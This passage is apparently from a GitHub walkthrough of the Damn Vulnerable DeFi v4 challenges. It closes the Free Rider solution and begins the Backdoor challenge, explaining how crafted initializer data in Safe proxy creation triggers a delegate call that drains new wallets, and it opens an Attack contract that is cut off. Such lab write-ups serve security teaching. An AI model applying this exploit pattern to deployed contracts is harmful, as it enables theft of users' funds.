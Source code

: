 ```solidity
    }

    function onERC721Received(address, address, uint256, bytes memory) external pure returns (bytes4) {
        // Because of vulnerability in FreeRiderNFTMarketplace:L108, I cannot transfer the NFT to FreeRiderRecoveryManager in this call.
        // FreeRiderRecoveryManager has no fallback function and cannot receive the ETH.

        // marketplace.token().safeTransferFrom(address(this), address(recoveryManager), _tokenId, data);
        return this.onERC721Received.selector;
    }
}

```

Run `forge test --mp test/free-rider/FreeRider.t.sol --isolate` to validate test

---

## 11.BACKDOR

**Objective**

_from `_isSolved()` in test_

1. _Player must have executed a single transaction_
2. _User must have registered a wallet_
3. _User is no longer registered as a beneficiary_
4. _Recovery account must own all tokens_

**Attack Analysis**

- The vulnerability lies in how the Safe contract is initialized during wallet creation. In `SafeProxyFactory.createProxyWithCallback()`, the `deployProxy()` function is called with user-controlled initializer data.
- This initializer data is passed to `Safe.setup()` during proxy creation, allowing an attacker to control the `to` and `data` parameters. The `to` parameter specifies a contract address for an optional delegate call, and data contains the payload for that delegate call.
- By carefully crafting the initializer data, an attacker can make the newly created wallet perform a delegate call to a malicious contract, which can then drain the wallet's funds.

**POC**

See [test/backdoor/Backdoor.t.sol](https://github.com/CanonicalJP/damn-vulnerable-defi-v4-walkthrough/blob/master/test/backdoor/Backdoor.t.sol)

```solidity
function test_backdoor() public checkSolvedByPlayer {
    new Attack(
        address(singletonCopy),
        address(walletFactory),
        address(walletRegistry),
        address(token),
        recovery,
        users
    );
}

contract Attack {
    address private immutable singletonCopy;
    address private immutable walletFactory;
    address private immutable walletRegistry;
    DamnValuableToken private immutable dvt;
    address recovery;

    constructor(
```